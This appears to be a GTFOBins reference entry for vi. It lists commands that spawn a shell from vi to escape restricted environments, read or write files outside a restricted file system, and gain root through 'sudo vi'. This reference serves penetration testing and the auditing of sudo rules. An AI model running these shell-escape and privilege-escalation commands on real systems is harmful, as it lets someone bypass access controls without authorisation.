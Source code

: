 # GTFOBin: vi

Modern Unix systems run `vim` binary when `vi` is called.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
vi -c ':!/bin/sh' /dev/null
```

```
vi
:set shell=/bin/sh
:shell
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
vi file_to_write
iDATA
^[
w
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
vi file_to_read
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo vi -c ':!/bin/sh' /dev/null
```